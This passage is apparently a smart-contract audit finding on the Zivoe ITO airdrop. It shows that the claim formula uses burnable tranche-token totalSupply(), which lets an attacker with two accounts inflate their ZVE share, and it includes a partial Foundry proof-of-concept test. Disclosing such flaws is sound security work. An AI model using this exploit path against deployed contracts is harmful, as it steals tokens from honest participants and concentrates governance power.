 The formula is $pZVEOwned/pZVETotal * totalZVEAirdropped$ (in the code these are called `upper`, `middle` and `lower`).

```solidity
        uint256 upper = seniorCreditsOwned + juniorCreditsOwned;
        uint256 middle = IERC20(IZivoeGlobals_ITO(GBL).ZVE()).totalSupply() / 20;
        uint256 lower = IERC20(IZivoeGlobals_ITO(GBL).zSTT()).totalSupply() * 3 + (
            IERC20(IZivoeGlobals_ITO(GBL).zJTT()).totalSupply()
        );
```

These calculations can be manipulated because they use `totalSupply()`.  The tranche tokens have a public [`burn()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeTrancheToken.sol#L72) function.

An attacker can use 2 accounts to enter the ITO. They will deposit large amounts of stablecoins towards the senior tranche. When the airdrop starts, they can claim their senior tokens and start vesting ZVE tokens. The senior tokens can then be burned. Now, when the attacker calls the `claimAirdrop` function with their second account, the denominator of the above equation will be much smaller, allowing them to claim much more ZVE tokens than they are entitled to.

## Impact
There are 2 impacts from exploiting this vulnerability:
 - a malicious entity can claim excessively large part of the airdrop and gain governance power in the protocol
 - since the attacker would have gained unexpectedly large amount of ZVE tokens and the total ZVE to be distributed will be `1.25M`, the users that claim after the attacker may not be able to do so if the amount they are entitled to, added to the stolen ZVE, exceeds `1.25M`.

## Code Snippet
Add this function to [`Test_ZivoeITO.sol`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Core/Test_ZivoeITO.sol) and import the `console`.

You can comment the line where Sue burns their tokens and see the differences in the logs.

```solidity
    function test_StealZVE() public {
        // Sam is an honest actor, while Bob is a malicious one
        mint("DAI", address(sam), 3_000_000 ether);
        mint("DAI", address(bob), 2_000_000 ether);
        zvl.try_commence(address(ITO));

        // Bob has another Ethereum account, Sue
        bob.try_transferToken(DAI, address(sue), 1_000_000 ether);
        
        // give approvals
        assert(sam.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(bob.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(sue.try_approveToken(DAI, address(ITO), type(uint256).max));

        // Sam deposits 2M DAI to senior tranche and 400k to the junior one
        hevm.prank(address(sam));
        ITO.depositBoth(2_000_000 ether, DAI, 400_000, DAI);
       
        // Bob deposits 2M DAI into the senior tranche using his both accounts
        hevm.prank(address(bob));
        ITO.depositSenior(1_000_000 ether, DAI);

        hevm.prank(address(sue));
        ITO.depositSenior(1_000_000 ether, DAI);

        // Move the timestamp after the end of the ITO
        hevm.warp(block.timestamp + 31 days);
        
        ITO.claimAirdrop(address(sue));
```